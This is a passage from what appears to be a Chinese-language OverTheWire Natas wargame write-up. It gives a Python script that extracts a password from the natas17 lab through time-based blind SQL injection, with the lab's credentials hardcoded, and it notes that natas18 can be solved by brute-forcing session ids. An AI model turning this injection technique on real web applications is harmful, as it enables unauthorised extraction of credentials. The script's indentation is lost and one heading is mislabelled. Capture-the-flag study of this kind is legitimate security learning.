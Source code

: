 
*   **natas18**  
    把回显注释掉了，所以只能用time based。代码如下 

{% highlight python %}
#!/usr/bin/env python2
import urllib
import urllib2
import base64
import time

def makePayload(statement):
    return 'natas18" and if(ascii(substr(password, %d, 1))%s%d, sleep(4), 1)#' % statement

def doAssert(statement):
    url = 'http://natas17.natas.labs.overthewire.org'
    values = {'username':makePayload(statement)}

    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)

    username = "natas17"
    password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"
    base64string = base64.encodestring('%s:%s' % (username, password)).replace('\n', '')
    req.add_header('Authorization',"Basic %s" % base64string)
    req.add_header('Content-Type','application/x-www-form-urlencoded')

    start = time.time()
    response = urllib2.urlopen(req)
    content = response.read()
    end = time.time()

    return end-start > 3.5

if __name__ == "__main__":
    alphalist = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxy"
    result = []
    for idx in range(1,33):
    start = 0
    end = len(alphalist) #[start, end)
    while (start < end):
    if (end - start == 1):
    result.append(alphalist[start])
    print alphalist[start]
    break
    else:
    middle = (start + end)/2
    if(doAssert((idx, '<', ord(alphalist[middle])))):
        end = middle
    else:
        start = middle
    print ''.join(result)
{% endhighlight %}
            

*   **natas18**  
    暴力破解，session id最大只有640 
